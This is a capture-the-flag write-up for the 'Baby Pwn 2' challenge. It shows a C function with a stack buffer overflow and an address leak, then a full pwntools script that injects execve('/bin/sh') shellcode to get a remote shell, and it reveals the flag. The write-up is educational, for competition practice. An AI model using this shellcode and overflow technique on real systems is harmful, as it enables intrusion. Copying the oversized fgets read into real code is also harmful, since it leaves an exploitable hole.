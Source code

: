 https://ctftime.org/event/2570

# Baby Pwn 2 (PWN)

Hehe, now there's no secret function to call. Can you still get the flag?

nc 34.162.119.16 5000

## Analysis

`vulnerable_function` gives us the address of a buffer on the stack then reads our input onto the stack allowing us to control the return address:

```c
void vulnerable_function()
{
    char buffer[64];
    printf("Stack address leak: %p\n", buffer);
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
}
```

## Solution

1) Parse the leak
    - Note: this is the stack of the buffer on the stack before the return address
2) Send shellcode to `execve("/bin/sh", 0, 0)`
    - Write "/bin/sh" to .bss in the form of two `mov`s for a total of 9 bytes
3) Sending padding up until the return address
4) Set the return address of `vulnerable_function` equal to the address of the shellcode on the stack

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./baby-pwn-2", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="b vulnerable_function")
p = remote("34.162.119.16", 5000)

p.readuntil(b"leak: ")
leak = int(p.readline().decode(), 16)

shellcode = asm("""
    mov rdi, 0x404008
    mov byte ptr [rdi], 0
    mov rbx, 0x68732f2f6e69622f
    mov rdi, 0x404000
    mov [rdi], rbx
    xor rdx, rdx
    xor rsi, rsi
    mov rax, 59
    syscall
        """)

payload = shellcode.ljust(0x48, b"A")
payload += p64(leak)
p.sendlineafter(b"text: ", payload)

p.interactive() # uoftctf{sh3llc0d3_1s_pr3tty_c00l}
```

## Flag
`uoftctf{sh3llc0d3_1s_pr3tty_c00l}`

smiley 2025/01/12
